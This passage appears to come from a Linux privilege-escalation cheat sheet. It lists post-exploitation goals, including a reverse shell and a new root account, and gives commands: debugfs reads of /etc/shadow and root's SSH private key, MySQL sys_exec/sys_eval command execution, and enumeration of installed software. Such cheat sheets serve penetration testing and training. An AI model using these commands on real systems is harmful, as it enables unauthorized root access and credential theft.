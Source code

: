 1.  See files and their contents.
2.  Get a reverse shell.
3.  Modify permissions to be root.
4.  Add a new root user account that we could use.

**Exploit example**

```bash
df -h #Find where "/" is mounted
debugfs /dev/sda1
debugfs: cd /root
debugfs: ls
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```

## MySQL Privilege Escalation

If MySQL is running as root and you have credentials to log in, you can execute system commands directly from the database.

```bash
select sys_exec('whoami');
select sys_eval('whoami');
```

## User-Installed Software

Check for third-party software installed by the user. These programs might have vulnerabilities, so it's important to investigate further.

**Common directories for user-installed software:**

```bash
/usr/local/
/usr/local/src
/usr/local/bin
/opt/
/home
/var/
/usr/src/
```

**Check installed software by distribution:**

```bash
# Debian/Ubuntu
dpkg -l

# CentOS/openSUSE/Fedora/RHEL
rpm -qa

# OpenBSD/FreeBSD
pkg_info
```
